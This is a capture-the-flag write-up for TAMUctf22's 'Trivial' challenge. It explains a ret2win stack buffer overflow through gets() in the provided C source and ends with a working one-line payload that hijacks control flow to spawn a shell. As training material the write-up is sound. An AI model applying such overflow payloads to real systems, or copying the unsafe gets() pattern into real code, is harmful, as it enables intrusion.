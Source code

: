 

Tamuctf22
 
Trivial - pwn challenge
The challenge file for tamuctf is a zip which contains an elf trivial, a c file called trivial.c and a python file solver-template.py,.This exploit is done using gdb to get a better understanding.
The file trivial.c gives:
```
#include <stdlib.h>
#include <stdio.h>

void win() {
    system("/bin/sh");
}

void main() {
    char buff[69];

    gets(buff);
}
```

This is a ret2win challenge, where we can exploit the gets function in main to access win. gets is a library function which reads input from stdin until a newline character is read or the end of  file is reached.  So if we give enough junk data to fill the buffer, whatever is given after will overwrite the nearby memory. So if we overflow the stack and give the address of the win function as input, we can make the rip point to it. To do this, first take a look at disassembly of trivial.

![](https://i.imgur.com/70CUjxD.png)


As we can see the buffer size is 0x50, which is 80 is decimal . Now the buffer in the c file was given as 69, but here it is seen to be 80. This is because, in a 64 bit system ,when the file is compiled the memory allocated will be a multiple of 16  and so the buffer size was rounded off to the closest higher  multiple of 16, which was 80.
So we need to pass 0x50 bytes of junk data and  8 extra bytes to write the address on to the rip.The 8 extra bytes is used to overwrite the memory on rip.Find the address of the win function:
![](https://i.imgur.com/xI1GKej.png)


So we’ll input a string with 0x58 bytes of random data and the ret and win addresses. In 64 bit systems, the addresses are 8 bytes long and they are read by line. This may lead to some misalignment issues, so we add a return address along to prevent that error. The return address here will be the ret address.
The address of ret is:0x401160.
So the exploit will be :
```
! python -c 'print "A"*0x58+ "\x60\x11\x40\x00\x00\x00\x00\x00"+"\x32\x11\x40\x00\x00\x00\x00\x00"'|./trivial 
```

